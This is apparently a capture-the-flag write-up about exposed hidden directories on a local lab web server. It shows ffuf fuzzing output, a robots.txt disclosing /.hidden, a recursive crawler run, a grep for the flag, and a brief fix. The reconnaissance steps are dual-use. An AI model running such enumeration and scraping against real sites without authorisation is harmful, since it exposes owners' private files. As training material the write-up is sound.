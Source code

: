 # File and Directory Exposure via accessible ```.hidden/``` directory

## 📖 Vulnerability Explanation
File and directory exposure is a misconfiguration vulnerability that allows an unauthorized user access to sensitive resources.

## ⚙️ Exploitation Process

- Enumerate the web directories via web fuzzing:
```
ffuf -u 'http://localhost:9090/FUZZ' -w /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt -fs 975

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:9090/FUZZ
 :: Wordlist         : FUZZ: /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 975
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 4ms]
audio                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 2ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
favicon.ico             [Status: 200, Size: 1406, Words: 2, Lines: 2, Duration: 0ms]
fonts                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 1ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 4, Duration: 0ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 12ms]
:: Progress: [20478/20478] :: Job [1/1] :: 12500 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

---

- Reading the ```robots.txt``` file reveals a directory called ```.hidden/```:

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

---

The folder contains one ```README``` file and a tree of directories and subdirectories containing more ```README``` files. We coded a python script to crawl all the files in the directory ```.hidden/``` and its subdirectories.

---

We coded a script to download all the files recursively present in a web server configured for directory listing.

In order to run it, we must create a python virtual environment and install the required packages using the ```requirements.txt``` file.
```
python3 -m venv my-python-env
```
```
./my-python-env/bin/pip3 install -r requirements.txt
```
```
./my-python-env/bin/python3 crawl.py 'http://localhost:9090/.hidden/' ./dump
```

---

- Look for the flag using the command find:

```
find ./dump -type f -exec grep flag {} \; -exec echo -e '\n [+] Flag found in file:' {} '\n' \;
```

## 🔧 Fix
To prevent the unwanted exposure of resources, we must implement a solid server configuration. Additionally, performing testing and security assessments regularly is recommended to ensure there are no misconfurations.

## ☝️🤓 Advanced explanation
The script we coded is a web crawler that downloads all files from a given base URL where directory listing is enabled. It recursively goes over routes and saves them, to then download all the files, showing the progress status. 

Usage:
```
python3 crawl.py <url> <directory>
```
- **url** → Base URL to crawl

- **directory** → Local folder to save files (created if missing)

Example:
```
python3 crawl.py "http://localhost:9090/.hidden/" ./dump
```